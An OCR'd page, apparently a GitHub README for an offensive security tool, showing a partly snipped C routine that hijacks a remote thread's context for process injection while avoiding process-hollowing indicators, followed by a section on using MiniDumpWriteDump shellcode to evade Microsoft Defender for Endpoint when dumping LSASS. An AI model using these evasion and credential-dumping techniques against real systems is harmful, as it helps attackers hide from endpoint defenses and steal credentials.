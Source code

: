 ```
int main(int argc, char* argv[])
{
	
	/* Blindside technique for unhooked ntdll */
	[snip]
	
	/* Process Injection */
    [snip]

	// Get thread context of primary thread
	CONTEXT threadContext;
	threadContext.ContextFlags = CONTEXT_INTEGER;
	ntGetContextThread(ntThread, &threadContext);

	// Update RCX register
	threadContext.Rcx = (DWORD64)hRemoteAddress;

	// Set the modified context back to the primary thread
	ntSetContextThread(ntThread, &threadContext);

	// Resume the thread
	ntResumeThread(ntThread, NULL);

	// Mapped section isn't unmapped to avoid Process Hollowing IoC's 
	/* status = ntUnmapViewOfSection(
		GetCurrentProcess(),
		hLocalAddress); */

	// Clean up injected process
	if (hParent) CloseHandle(hParent);
	RtlFreeHeap(RtlProcessHeap(), 0, AttributeList);
	RtlFreeHeap(RtlProcessHeap(), 0, stdHandleInfo);
	RtlFreeHeap(RtlProcessHeap(), 0, clientId);
	RtlFreeHeap(RtlProcessHeap(), 0, SecImgInfo);
	RtlDestroyProcessParameters(ProcessParameters);

	// Close Blindside Debug process
	CloseHandle(process.hProcess);
	TerminateProcess(process.hProcess, 0);
}
```

### Leveraging MiniDumpWriteDump Shellcode to bypass MDE detections

EDR Detection mechanisms have evolved around the MiniDumpWriteDump function, primarily detecting such LSASS dumping techniques by:
1. Hooking the MiniDumpWriteDump function along with its associated usage patterns
2. Opening up a new handle to the LSASS process itself
3. Dropping a memory dump of LSASS on disk
4. Signature of the dump file (file gets detected and deleted)
